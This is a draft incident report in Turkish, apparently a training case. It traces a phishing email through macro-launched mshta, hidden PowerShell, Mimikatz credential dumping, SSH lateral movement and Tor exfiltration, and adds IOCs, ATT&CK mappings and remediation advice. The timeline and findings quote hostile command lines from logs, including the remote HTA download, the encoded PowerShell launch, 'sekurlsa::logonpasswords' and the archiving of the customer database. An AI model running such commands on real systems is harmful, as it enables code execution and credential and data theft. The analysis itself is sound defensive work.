







# Olay Raporu (TASLAK) - INC-2026-0914-07

**Sistem:** FIN-WS03 (muhasebe iş istasyonu, birincil), app-db01 (iç Linux veritabanı sunucusu, yanal hareket hedefi)
**Önem Derecesi:** Kritik
**Durum:** Taslak. Yarın gözden geçirilip tamamlanacak
**Rapor Tarihi:** 14-17 Eylül 2026 (inceleme), olay tarihi 14 Eylül 2026
**İncelenen Veri:** 6 log kaynağı - mail-gateway2, sysmon2, winsecurity2, dns_query2, firewall2, linux_secure (Case2-auth.log)

---

## 1. Özet ve Kapsam

**Bir cümlede:** Tek bir kimlik avı e-postası, iki sistemi ele geçiren ve müşteri verisinin muhtemelen dışarı sızdırılmasıyla sonuçlanan tam kapsamlı bir ihlale dönüştü.

14 Eylül 2026'da, muhasebe departmanındaki FIN-WS03 iş istasyonundan dışarıya olağandışı, düzenli aralıklı bir trafik fark edilmesiyle inceleme başladı. Saldırı, sahte bir fatura eki içeren kimlik avı e-postasıyla başladı ve kullanıcı `b.kaya`'nın bu eki açmasıyla tetiklendi. Bunun ardından saldırgan bilgisayar belleğinden kimlik bilgilerini çaldı, meşru görünümlü bir zamanlanmış görevle kalıcılık sağladı ve çalınan bir servis hesabını kullanarak iç ağdaki veritabanı sunucusuna (`app-db01`) sıçradı. Orada müşteri veritabanını paketledi; yaklaşık bir saat sonra da yaklaşık 480 MB veri, kimliğini gizlemek için bir Tor çıkış düğümü üzerinden dışarı aktarıldı.

Olay, 6 farklı log kaynağının (e-posta ağ geçidi, uç nokta, DNS, güvenlik duvarı, ikinci sunucunun SSH kayıtları) çapraz analiziyle uçtan uca doğrulandı. Etkilenen sistemler ve hesaplar, veri kaybının boyutu ve saldırganın hâlâ içeride olup olmadığına dair açık sorular Bölüm 7 ve 8'de detaylandırılmıştır.

---

## 2. Zaman Çizelgesi

| Saat (14 Eyl 2026) | Sistem/Kaynak | Olay |
|---|---|---|
| 08:31 - 09:20 | mail-gateway2 | Rutin, meşru iş e-postaları (partner.com, bank.com.tr, iç duyuru). Gürültü incelendi |
| 08:22 - 09:05 | linux_secure | `ayse` kullanıcısı app-db01'e beklenen IP'den (192.168.30.15) normal giriş yapıyor. İncelendi, ilgisiz |
| **09:12:04** | mail-gateway2 | Saldırgan altyapısından bağlantı: `connect from unknown[45.137.21.88]` |
| **09:12:05** | mail-gateway2 | Kimlik avı e-postası teslim edildi - `Fatura_2026_4471.docm` eki, **SPF fail / DKIM none** |
| **09:41:12** | sysmon2 | b.kaya, `WINWORD.EXE` (PID 3990) ile `Fatura_2026_4471.docm`'yi açıyor |
| **09:41:18** | sysmon2 | WINWORD.EXE -> `mshta.exe` (PID 4820) `http://static-cdn-analytics.com/u.hta` |
| **09:41:19** | sysmon2 | mshta.exe -> gizli, base64 kodlu `powershell.exe` (PID 5012) |
| **09:41:24** | sysmon2 | powershell.exe -> ağ bağlantısı: `45.137.21.88:443` |
| 09:41 - 11:25 | dns_query2, firewall2 | ~1 dakikada bir, `static-cdn-analytics.com` (45.137.21.88) ile düzenli HTTPS beacon trafiği |
| **09:41:31** | sysmon2 | powershell.exe -> `svchost_update.exe` (PID 5240) indirilip `%TEMP%`'e çalıştırılıyor |
| 09:51 - 10:05 | dns_query2 | 4 adet rastgele alt-alan-adlı, sabit 30 karakter uzunluğunda **TXT** sorgusu, hepsi NXDOMAIN |
| **10:02:33** | mail-gateway2 | b.kaya normal iş e-postasına cevap yazıyor. Kullanıcı henüz ihlalden habersiz |
| **10:05:47** | sysmon2 | svchost_update.exe -> `m.exe "sekurlsa::logonpasswords"` (PID 5990) çalıştırılıyor |
| **10:05:48** | sysmon2 | m.exe, `lsass.exe`'ye erişiyor (GrantedAccess=0x1410) |
| 10:40:12 | sysmon2 | b.kaya, `notepad.exe` açıyor. İncelendi, zararsız |
| **10:31:44** | linux_secure | `svc-backup` hesabı **şifreyle**, **192.168.20.45'ten (FIN-WS03)** app-db01'e SSH girişi yapıyor (normalde: publickey, 192.168.30.10) |
| **10:33:02** | linux_secure | `sudo tar -czf /tmp/db_dump.tgz /var/lib/mysql/customers` - müşteri veritabanı paketleniyor |
| 10:36:20 | linux_secure | SSH oturumu kapanıyor |
| **10:38:02** | winsecurity2 | `\SystemTelemetrySync` adında zamanlanmış görev oluşturuluyor (aynı gizli PowerShell komutu) |
| **10:45:00** | winsecurity2 | Zamanlanmış görev tetikleniyor, `svchost.exe` üzerinden PowerShell tekrar çalışıyor |
| **11:20:37** | firewall2 | **480 MB** (503.316.480 bayt) tek seferlik veri aktarımı, FIN-WS03 -> `185.220.101.44` (bilinen Tor çıkış düğümü) |
| 11:25:10 | firewall2 | 45.137.21.88 ile beacon trafiği devam ediyor |

*Not: DNS logunda `static-cdn-analytics.com` sorguları 10:09:35'te kesiliyor, ama firewall'da aynı IP'ye giden trafik 11:25'e kadar sürüyor. Malware'in DNS'i tekrar sorgulamadan önbelleğe alınmış IP'yi kullanmaya devam ettiği anlaşılıyor. Bu, tek kaynağa güvenmenin yanıltıcı olabileceğinin somut bir örneği.*

---

## 3. Bulgular ve Kanıtlar

*Altı log kaynağının tamamı Splunk'a yüklenip doğrulandı. Yükleme sırasında 5 kaynakta bir event-breaking sorunu yaşandı ve düzeltildi.*



### 3.1 İlk Bulaşma - Kimlik Avı E-postası

**Kaynak:** mail-gateway2
**Sorgu:** `index=main sourcetype="mail-gateway2" | table _time, _raw | sort _time`
**Çıktı:** 7 e-posta arasında, 09:12:05'te `billing@acme-invoices.com` adresinden, `Fatura_2026_4471.docm` ekiyle gelen ve **spf=fail, dkim=none** olan tek e-posta tespit edildi. Hemen öncesinde (09:12:04), aynı sunucuya `45.137.21.88` IP'sinden bir bağlantı (`connect from unknown`) kaydı var.



**Yorum:** SPF/DKIM başarısızlığı, göndericinin sahte olduğunu doğrudan gösteriyor. Bağlantı IP'sinin (45.137.21.88), aşağıda 3.3'te göreceğimiz C2 beacon IP'siyle birebir aynı olması, saldırganın e-postayı kendi altyapısından gönderdiğinin doğrudan kanıtı. **Kanıt derecesi: Doğrudan Gözlem.**

### 3.2 Kod Çalıştırma - Word'den PowerShell'e

**Kaynak:** sysmon2
**Sorgu:**
```spl
index=main sourcetype=sysmon2
| rex "Image=\"(?<image>[^\"]+)\""
| rex "CommandLine=\"(?<cmdline>[^\"]+)\""
| table _time, image, cmdline
| sort _time
```
**Çıktı:** Süreç zinciri: `WINWORD.EXE` (09:41:12) -> `mshta.exe http://static-cdn-analytics.com/u.hta` (09:41:18) -> `powershell.exe -nop -w hidden -enc <base64>` (09:41:19) -> `svchost_update.exe` (09:41:31, SHA256 kaydıyla).



**Yorum:** WINWORD'den doğrudan mshta.exe'nin çalıştırılması, standart bir kullanıcı eyleminde görülmez; bu, ekteki dosyanın bir makro içerdiğine işaret eder (makro kodunun kendisi loglarda görünmüyor - bu bir **çıkarım**). mshta ve gizli PowerShell kullanımı, ikisi de savunmadan kaçınma amaçlı bilinen tekniklerdir. **Kanıt derecesi: Doğrudan Gözlem** (süreç zinciri) **+ Çıkarım** (makro varlığı).

### 3.3 C2 İletişimi - İki Paralel Kanal

**Kaynak:** dns_query2, firewall2, sysmon2 (çapraz doğrulama)
**Sorgu (firewall):** `index=main sourcetype=firewall2 | table _time, host, _raw`
**Sorgu (DNS TXT):** `index=main sourcetype=dns_query2 "TXT" | table _time, _raw | sort _time`
**Çıktı:** (1) 09:41-11:25 arası, ~1 dakikada bir, `45.137.21.88:443`'e küçük/tutarlı bayt boyutlu (500-700 bayt) bağlantılar. (2) 09:51-10:05 arası, ~5 dakikada bir, `static-cdn-analytics.com` altında rastgele fakat **sabit 30 karakter** uzunluğunda alt alan adlarıyla TXT sorguları, hepsi NXDOMAIN.




**Yorum:** Birinci kanal klasik HTTPS beacon (T1071.001). İkincisi muhtemelen DNS tünelleme/komut kanalı (T1071.004). Sabit uzunluk, değişken veri taşımadığını, sabit boyutlu bir token taşıdığını düşündürüyor (**çıkarım, orta-yüksek güvenilirlik**). Son TXT sorgusu (10:05:30) ile kimlik bilgisi çalma anı (10:05:47) arasında sadece 17 saniye olması, bu kanalın komut tetikleme işlevi gördüğü ihtimalini güçlendiriyor. **Kanıt derecesi: Doğrudan Gözlem** (trafik varlığı) **+ Çıkarım** (kanalın işlevi).

### 3.4 Kimlik Bilgisi Çalma

**Kaynak:** sysmon2
**Çıktı:** 10:05:47'de `m.exe "sekurlsa::logonpasswords"` çalıştırıldı; 10:05:48'de `m.exe`, `lsass.exe`'ye `GrantedAccess=0x1410` ile erişti.
**Yorum:** `sekurlsa::logonpasswords`, Mimikatz'ın imza niteliğindeki komutudur; LSASS bellek erişimiyle birlikte görülmesi (T1003.001) yüksek güvenilirlikte bir tespit sağlar. **Kanıt derecesi: Doğrudan Gözlem.** Ancak hangi spesifik kimlik bilgisinin çalındığı loglarda görünmüyor. Bu bir görünürlük boşluğu (bkz. Bölüm 8).

### 3.5 Kalıcılık

**Kaynak:** winsecurity2
**Çıktı:** 10:38:02'de `\SystemTelemetrySync` adlı zamanlanmış görev oluşturuldu (EventCode 4698), içeriği aynı gizli PowerShell komutu. 10:45:00'de görev tetiklendi (EventCode 4688).



**Yorum:** Meşru görünümlü bir isimle (T1053.005) kalıcılık sağlanmış; ilk bulaşma noktası kapatılsa bile bu mekanizma saldırgana erişim sağlamaya devam edecektir. **Kanıt derecesi: Doğrudan Gözlem.**

### 3.6 Yanal Hareket - En Güçlü Kanıt

**Kaynak:** linux_secure (Case2-auth.log)
**Sorgu:** `index=main sourcetype="linux_secure" source="Case2-auth.log" | table _time, host, _raw | sort _time`
**Çıktı:** `svc-backup` hesabı normalde **publickey** ile, **192.168.30.10**'dan giriş yapıyor (03:00:04). Ama 10:31:44'te **password** ile, **192.168.20.45'ten (FIN-WS03'ün kendi IP'si)** giriş yapılmış. Hemen ardından (10:33:02) `sudo tar -czf /tmp/db_dump.tgz /var/lib/mysql/customers`.



**Yorum:** Kimlik doğrulama yöntemi ve kaynak IP'deki bu çifte anomali, çalınan bir kimlik bilgisiyle yanal hareket edildiğinin (T1078 + T1021.004) çok güçlü kanıtı. **Kanıt derecesi: Doğrudan Gözlem** (anomalinin kendisi). Bunun m.exe ile çalınan kimlik bilgisiyle doğrudan bağlantılı olduğu ise zamanlama örtüşmesine dayanan bir **Çıkarımdır** (26 dakika ara), doğrudan kanıtlanmamıştır.

### 3.7 Veri Sızdırma

**Kaynak:** firewall2
**Çıktı:** 11:20:37'de FIN-WS03'ten (192.168.20.45) `185.220.101.44`'e tek seferlik 480 MB aktarım. Bu IP, web araştırmasıyla bilinen bir Tor çıkış düğümü olarak doğrulandı.
**Yorum:** Boyut ve tekillik, veri sızdırmayla (T1041) tutarlı; Tor kullanımı (T1090.003) kimlik gizleme çabasını gösteriyor. **Doğrudan gözlem** (aktarımın kendisi) + **çıkarım** (bunun müşteri veritabanı olduğu - bkz. Bölüm 8).

---

## 4. Kanıt Derecesi

Her iddia, ne kadar sağlam olduğuna göre üç kategoride etiketlenmiştir.

| İddia | Derece |
|---|---|
| Kimlik avı e-postası SPF fail/DKIM none ile teslim edildi | **Doğrudan Gözlem** |
| Saldırgan mail gateway'e 45.137.21.88'den bağlandı | **Doğrudan Gözlem** |
| b.kaya docm dosyasını açtı, mshta ve PowerShell zinciri çalıştı | **Doğrudan Gözlem** |
| Bu zincirin bir VBA makrosu tarafından tetiklendiği | **Çıkarım (yüksek güvenilirlik)** - makro kodu görülmedi |
| svchost_update.exe indirilip çalıştırıldı | **Doğrudan Gözlem** |
| m.exe ile LSASS'a erişilip kimlik bilgisi çalınmaya çalışıldı | **Doğrudan Gözlem** |
| Hangi spesifik kimlik bilgisinin çalındığı | **Bilinmiyor (Görünürlük Boşluğu)** |
| Zamanlanmış görevle kalıcılık sağlandı ve tetiklendi | **Doğrudan Gözlem** |
| DNS TXT kanalının komut teslimatı için kullanıldığı | **Çıkarım (orta-yüksek güvenilirlik)** - zamanlama + sabit uzunluk destekliyor |
| svc-backup çalınan kimlikle app-db01'e giriş yaptı | **Doğrudan Gözlem** (anomali) + **Çıkarım** (bunun m.exe'nin ürünü olduğu) |
| Müşteri veritabanı paketlendi | **Doğrudan Gözlem** |
| 480 MB'ın bu veritabanı dump'ı olduğu | **Çıkarım (belirsiz)** - yalnızca zamanlama örtüşmesi var |
| Dump'ın app-db01'den FIN-WS03'e nasıl taşındığı | **Bilinmiyor (Görünürlük Boşluğu)** |
| 185.220.101.44'ün Tor çıkış düğümü olduğu | **Doğrudan Doğrulama** (harici kaynak) |
| Saldırganın app-db01'in ötesine geçip geçmediği | **Bilinmiyor (Görünürlük Boşluğu)** |

---

## 5. IOC Listesi

| Tür | Değer | Kanıt Kaynağı | Değerlendirme |
|---|---|---|---|
| IP | `45.137.21.88` | mail-gateway2, dns_query2, firewall2, sysmon2 | Yüksek güven - hem C2 hem e-posta gönderim altyapısı, 4 kaynakta doğrulandı |
| IP | `185.220.101.44` | firewall2 | Yüksek güven - bilinen Tor çıkış düğümü, veri sızdırma hedefi |
| Domain | `static-cdn-analytics.com` | dns_query2, sysmon2 | Yüksek güven - C2 domaini, 2 kaynakta doğrulandı |
| Domain | `acme-invoices.com` | mail-gateway2 | Orta güven - kimlik avı gönderen domaini, tek kaynak |
| Dosya | `Fatura_2026_4471.docm` (SHA256: dd50d653c274434bcd62fbde66b49e144ac0658f844ea0528b3cc035dc3a2540) | mail-gateway2, sysmon2 | Yüksek güven - ilk bulaşma dosyası |
| Dosya | `mshta.exe` (SHA256: f35dcb15cdb763055b5527a8fe315a42b4b64c8336b275962395185466a615a2) | sysmon2 | Bilgi amaçlı - meşru sistem ikilisi, kötüye kullanıldı |
| Dosya | `svchost_update.exe` (SHA256: 746f10f315b4beb6823d1b47539e6c44079434d00e0efa4baa2b30be6b1f3d2b) | sysmon2 | Yüksek güven - C2 aracısı |
| Dosya | `m.exe` (SHA256: 97ef7e9ffbcecb476ee47b94fe86b5fc57b30a41f6933cffc3dc8b4ae6f2854e) | sysmon2 | Yüksek güven - kimlik bilgisi çalma aracı |
| Hesap | `b.kaya` (FIN-WS03) | sysmon2, winsecurity2, mail-gateway2 | Yüksek güven - ele geçirilen iş istasyonu hesabı |
| Hesap | `svc-backup` (app-db01) | linux_secure | Yüksek güven - kötüye kullanılan servis hesabı |
| Artefakt | `\SystemTelemetrySync` (zamanlanmış görev) | winsecurity2 | Yüksek güven - kalıcılık mekanizması |

**Etkilenen Sistemler:** FIN-WS03 (birincil, tam ele geçirilmiş), app-db01 (yanal hareket hedefi, veri erişimi doğrulandı).

---

## 6. MITRE ATT&CK Eşlemesi

| Taktik | Teknik ID | Teknik Adı | İlgili Bulgu | Güven |
|---|---|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | 3.1 | Doğrudan gözlem |
| Execution | T1204.002 | User Execution: Malicious File | 3.2 | Doğrudan gözlem |
| Execution | T1059.005 | Command and Scripting Interpreter: Visual Basic | 3.2 | Çıkarım |
| Defense Evasion | T1218.005 | System Binary Proxy Execution: Mshta | 3.2 | Doğrudan gözlem |
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | 3.2 | Doğrudan gözlem |
| Defense Evasion | T1027 | Obfuscated Files or Information | 3.2 | Doğrudan gözlem |
| Command and Control | T1105 | Ingress Tool Transfer | 3.2 | Doğrudan gözlem |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name or Location | 3.2 | Doğrudan gözlem |
| Command and Control | T1071.001 | Application Layer Protocol: Web Protocols | 3.3 | Doğrudan gözlem |
| Command and Control | T1071.004 | Application Layer Protocol: DNS | 3.3 | Çıkarım (orta-yüksek) |
| Credential Access | T1003.001 | OS Credential Dumping: LSASS Memory | 3.4 | Doğrudan gözlem |
| Defense Evasion / Persistence | T1078 | Valid Accounts | 3.6 | Doğrudan gözlem (kullanım) + çıkarım (kaynağı) |
| Lateral Movement | T1021.004 | Remote Services: SSH | 3.6 | Doğrudan gözlem |
| Collection | T1005 | Data from Local System | 3.6 | Doğrudan gözlem |
| Collection | T1560.001 | Archive Collected Data: Archive via Utility | 3.6 | Doğrudan gözlem |
| Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | 3.5 | Doğrudan gözlem |
| Command and Control | T1090.003 | Proxy: Multi-hop Proxy | 3.7 | Doğrudan doğrulama (harici) |
| Exfiltration | T1041 | Exfiltration Over C2 Channel | 3.7 | Doğrudan gözlem (aktarım) + çıkarım (içerik) |

**Birincil teknik:** T1003.001 - LSASS'tan kimlik bilgisi çalma, saldırının tek makineden kuruma yayılmasını mümkün kılan dönüm noktası.

---

## 7. Etki

**Hangi sistemler ele geçirildi:** FIN-WS03 tam anlamıyla ele geçirilmiş durumda. Kod çalıştırma, kimlik bilgisi çalma ve kalıcılık mekanizması hepsi bu sistemde doğrulandı. app-db01 kısmen etkilendi. Saldırgan içeri girip müşteri veritabanına eriştiğini kanıtladık, ancak sistemin genelinde (örn. kalıcılık) ne yapıldığı görünürlük eksikliği nedeniyle bilinmiyor.

**Hangi hesaplar güvenilmez hale geldi:** `b.kaya` (FIN-WS03 kullanıcı hesabı) ve `svc-backup` (app-db01 servis hesabı) her ikisi de ele geçirilmiş kabul edilmeli. m.exe'nin LSASS'tan başka kimlik bilgileri de çalmış olma ihtimali göz ardı edilemez. Bu sistemde daha önce oturum açmış diğer hesaplar da (örneğin yerel yöneticiler) risk altında olabilir.

**Veri açısından ne oldu / olmuş olabilir:** Müşteri veritabanının tamamı (`/var/lib/mysql/customers`) paketlenmiş durumda bulundu. 480 MB'lık bir aktarımın bu dump ile ilişkili olduğu güçlü bir çıkarım ama kanıtlanmamış. En kötü senaryo: müşteri verileri tamamen sızdırılmış. En iyi senaryo: paketleme yapıldı ama sızdırma başka bir şeydi ve dump hâlâ `/tmp` dizininde bekliyor. Bu ayrım acilen doğrulanmalı.

**Saldırgan hâlâ içeride mi:** **Bilinmiyor, ve bu en kritik açık soru.** FIN-WS03'teki zamanlanmış görevin (`SystemTelemetrySync`) hâlâ aktif olup olmadığı, bu rapor kapsamında doğrulanmadı - rapor tarihi itibarıyla temizlenmediyse saldırgan hâlâ erişime sahip olabilir. app-db01'de ek bir kalıcılık kontrolü hiç yapılmadı.

---

## 8. Görünürlük Boşlukları

| # | Çıkarım (kesinleşmemiş bağ) | Bunu kesinleştirecek kaynak | Öneri |
|---|---|---|---|
| 1 | 480 MB'lık aktarımın müşteri veritabanı dump'ı olduğu | SSL-inceleyen proxy/DLP logu, dosya içerik denetimi | Çevre güvenlik duvarına DLP ve dosya parmak izi denetimi eklenmesi |
| 2 | app-db01'de ek kalıcılık mekanizması kurulmadığı | app-db01 için cron/auditd/FIM logu | app-db01'e auditd ve dosya bütünlüğü izleme kurulması |
| 3 | m.exe'nin tam olarak hangi kimlik bilgilerini çaldığı | Uç nokta EDR aracının bellek olay detayı | Kritik iş istasyonlarına davranış tabanlı EDR kurulması |
| 4 | DNS TXT sorgularının tam işlevi (komut mu, veri mi) | Tam paket yakalama (PCAP), DNS güvenlik aracı | DNS sorgu içeriğini analiz eden bir çözüm (DNS firewall/RPZ) |
| 5 | Word makrosunun içeriği | E-posta sandbox/detonation analizi, uç nokta AMSI logu | Mail gateway'e sandbox taraması, uç noktalara AMSI loglaması |
| 6 | Saldırganın app-db01'in ötesine geçip geçmediği | Diğer olası hedef sistemlerin logları | **En kritik:** merkezi log toplama kapsamının tüm kritik sunuculara genişletilmesi |
| 7 | Veritabanı dump'ının app-db01'den FIN-WS03'e nasıl taşındığı | İç ağ segment sensörü, app-db01 dosya transfer logu | İç ağ segmentleri arası trafiğin izlenmesi |

**Not:** "Kanıt yok" ile "saldırı yok" aynı şey değildir. Yukarıdaki boşluklar, olayın bilinen kapsamının aslında gerçek kapsamın alt sınırı olabileceği anlamına gelir.

---

## 9. Öneriler

### Kök Nedene Yönelik (öncelikli)

1. **E-posta filtreleme/sandbox eksikliği:** SPF/DKIM başarısız olan bir e-postanın ekiyle birlikte teslim edilmesine izin verilmiş. E-posta ağ geçidine, başarısız SPF/DKIM olan e-postaları karantinaya alan bir politika ve ek dosyaları çalıştırmadan analiz eden bir sandbox eklenmelidir.
2. **Uç nokta tespit ve müdahale (EDR) eksikliği:** mshta, gizli PowerShell ve LSASS erişimi gibi yüksek riskli davranışlar Sysmon'da görülmesine rağmen hiçbir otomatik engelleme tetiklenmemiş. Davranış tabanlı bir EDR çözümü bu zincirin en az 3 noktasında (mshta, PowerShell, LSASS erişimi) saldırıyı otomatik durdurabilirdi.
3. **Servis hesabı kimlik doğrulama zafiyeti:** `svc-backup` hesabının hem anahtar hem şifre ile giriş yapabilmesi, çalınan bir şifrenin yanal harekete izin vermesine yol açtı. Servis hesapları yalnızca anahtar tabanlı kimlik doğrulamaya zorlanmalı, şifreyle giriş tamamen kapatılmalı.
4. **İç ağ segmentasyonu ve izleme eksikliği:** FIN-WS03'ten app-db01'e doğrudan erişilebilmesi ve bu trafiğin hiçbir iç sensörden geçmemesi, yanal hareketi mümkün kılan yapısal bir zafiyet. Kritik sunucular (app-db01 gibi) ayrı bir segmentte izole edilmeli ve segmentler arası trafik izlenmelidir.

### Semptoma Yönelik (acil, kısa vadeli)

5. `b.kaya` ve `svc-backup` hesaplarının kimlik bilgileri derhal sıfırlanmalı.
6. FIN-WS03'teki `\SystemTelemetrySync` zamanlanmış görevi kaldırılmalı ve sistem yeniden görüntülenmeli (re-image) düşünülmeli.
7. `45.137.21.88`, `185.220.101.44` ve `static-cdn-analytics.com` çevre güvenlik duvarında/DNS'te engellenmeli.
8. app-db01'deki `/tmp/db_dump.tgz` dosyası incelenip silinmeli. Müşteri veritabanına başka yetkisiz erişim olup olmadığı kontrol edilmeli.

### Görünürlük Boşluklarından Doğan Sensör Önerileri

9. Merkezi log toplamanın tüm kritik sunuculara (yalnızca FIN-WS03/app-db01 değil) genişletilmesi.
10. DLP ve dosya parmak izi denetimi (çevre güvenlik duvarı/proxy seviyesinde).
11. DNS sorgu içeriği analiz eden bir çözüm (DNS tünelleme tespiti için).
12. app-db01 ve benzeri kritik sunuculara auditd + dosya bütünlüğü izleme (FIM).

---

## 10. Sonuç

Bu olay, tek bir kimlik avı e-postasının, e-posta filtrelemesindeki bir boşluktan, uç nokta tespitindeki bir eksiklikten ve iç ağ izlemesindeki bir açıktan geçerek nasıl tam kapsamlı bir veri ihlaline dönüşebileceğinin somut bir örneğidir. **Öncelikli aksiyon:** `b.kaya` ve `svc-backup` kimlik bilgilerinin derhal sıfırlanması, FIN-WS03'teki kalıcılık mekanizmasının kaldırılması ve app-db01'in kapsamlı biçimde (mevcut log kaynaklarının ötesinde) incelenmesi. Çünkü şu an itibarıyla saldırganın hâlâ içeride olup olmadığını kesin olarak söyleyemiyoruz.